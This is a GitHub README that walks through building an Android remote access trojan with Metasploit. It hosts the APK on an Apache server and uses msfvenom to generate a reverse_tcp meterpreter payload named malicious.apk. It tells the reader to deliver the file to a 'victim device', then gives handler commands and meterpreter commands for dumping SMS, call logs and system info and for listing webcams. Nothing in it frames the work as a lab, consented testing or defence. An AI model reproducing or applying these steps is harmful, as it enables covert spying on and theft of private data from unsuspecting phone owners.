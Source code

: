 # RAT-for-android
A Guide for making you own RAT(Remote access tool) for android with the help of msfconsole.

# Requirment to create your own RAT.
1.Kali linux
2.metaspolit framework
3.Apache2

# Steps to create RAT(Remote access tool)

1. Ensure that your system is upto date.
   (sudo apt update && sudo apt upgrade -y)

2. Install apache2 in your system.
   (sudo apt install apache2)
![WhatsApp Image 2025-01-02 at 8 18 26 PM](https://github.com/user-attachments/assets/7a05e6a3-130c-4166-9722-b39d56ca3a5e)
![WhatsApp Image 2025-01-02 at 8 19 11 PM](https://github.com/user-attachments/assets/f3c586d5-d138-4236-b3ba-2fc5b7cc4c53)

3. After installing you need to enable and start apache2 server.
   (sudo systemctl start apache2),(sudo systemctl enable apache2)
   
  ![WhatsApp Image 2025-01-02 at 8 22 12 PM](https://github.com/user-attachments/assets/e79ab4ab-95fd-4036-a629-ad5aaf41b1b4) 
  ![WhatsApp Image 2025-01-02 at 8 23 06 PM](https://github.com/user-attachments/assets/22d2955e-c1dd-4f15-ac2b-5f4b0b65be02)

5. Verify that apache2 is running or not.
 (sudo systemctl status apache2)
![WhatsApp Image 2025-01-02 at 8 24 19 PM](https://github.com/user-attachments/assets/70dfab6d-b595-486b-abda-166a7b2b57af)
![WhatsApp Image 2025-01-02 at 8 24 39 PM](https://github.com/user-attachments/assets/559183fa-6e1f-4f59-9840-3e9f85f0ad6d)

6. If you have firewall enable in you system you need to add rule in firewall for apache2.
   (sudo ufw allow 'Apache Full')

7. You wil get you apache2 server folder at (/var/www/html/)

8. Now you have successfully created your apache2 server you can vist you index page of you server at
   (http//{your-ip}/index.html)

9. Next step is to create payload for you RAT apk.

10. We are using msfvenom for creating payload.
    (msfvenom -p android/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<port> R > malicious.apk).
   ![Screenshot 2025-01-02 191802](https://github.com/user-attachments/assets/3e9ed813-a821-4079-b78f-e03817f94de2)

11. LHOST: Your IP address (use ifconfig to find it).  
     LPORT: A port number for listening (e.g., 4444).  
     malicious.apk: The name of the APK file created.
![Screenshot 2025-01-02 191825](https://github.com/user-attachments/assets/26b29ecf-5f1e-451c-83f4-61132521c0ab)

12. After creating apk you can upload it to you server show that anyone with you link can download or you can share apk any way to victim device.

    (mv malicious.apk /var/www/html/) for moving apk to server.

13. Now open msfconsole to monitro the apk and perform task on it on victim device.
![Screenshot 2025-01-02 193021](https://github.com/user-attachments/assets/192ce1fd-543d-4fc8-add0-7d01b71a9550)
![Screenshot 2025-01-02 193046](https://github.com/user-attachments/assets/d072d315-4dfc-49c9-9d1e-21bdd957e387)

# Steps to connect to the paylod in victim device

sudo msfconsole  

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST {your-ip}

set LPORT {port}

exploit

13. Hit enter to exploit make sure you have successfully install the payload to the victim device.
![Screenshot 2025-01-02 193214](https://github.com/user-attachments/assets/34c56c34-e7d3-4306-891c-24bbdea74026)

14. It will get connect to victim device now you can have access to it file manager,sms,calllogs,sysinfo,camer,etc.
![Screenshot 2025-01-02 193448](https://github.com/user-attachments/assets/82ba145d-a55d-4233-a6d7-54962bff0814)
![Screenshot 2025-01-02 193458](https://github.com/user-attachments/assets/942e9f88-17c3-4501-af78-e9713cbc193c)

15. once connection is successfull try using (dump_sms for sms ,dump_calllog for call logs ,webcam_list , sysinfo for system info, ls to list dir)
![Screenshot 2025-01-02 193517](https://github.com/user-attachments/assets/c42653cf-0695-4f88-8549-3041b24862b4)
![Screenshot 2025-01-02 193535](https://github.com/user-attachments/assets/babd95e8-5496-4bac-bb62-8ab251baf7e2)
# Sms output
![Screenshot 2025-01-02 204049](https://github.com/user-attachments/assets/b0c6d2cd-8ae0-4946-b9fc-f0a42fc0cdf2)
